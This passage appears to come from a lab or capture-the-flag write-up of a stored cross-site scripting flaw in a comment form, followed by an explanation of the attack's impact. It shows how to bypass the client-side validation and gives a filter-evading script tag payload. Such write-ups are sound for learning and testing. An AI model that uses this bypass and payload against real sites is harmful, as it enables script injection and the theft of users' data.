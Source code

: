 - Change the onsubmit parameters to ```onsubmit=\"return true\"```

```htm
<form id=\"comment-form\" action=\"profile.php?id=26\" method=\"post\"
style=\"margin-top:20px\" onsubmit=\"return
validateCommentForm();\"\>\<textarea rows=\"4\" name=\"comment\"
placeholder=\"Write a comment here\...\"\>\</textarea\>\
<input type=\"submit\" value=\"COMMENT\" style=\"margin-left: auto; margin-right: auto;\"\>\</form\>

```

- Add the following to the comment box: ```<scrscriptipt> alert(Something)</script>```

    ![](https://raw.githubusercontent.com/Freytes/freytes.github.io/main/project-flag/img/image5.png){width=90%}

## Impact

An XSS (Cross-Site Scripting) attack is a type of web-based attack that involves injecting malicious code into a website, usually through a vulnerable input field such as a search box or a comment section. 

The impact of an XSS attack can be severe, depending on the nature and scope of the attack. Here are some possible consequences:

Data theft: An attacker can use XSS to steal sensitive information, such as credit card details, social security numbers, or login credentials. This information can be used for identity theft or fraud.
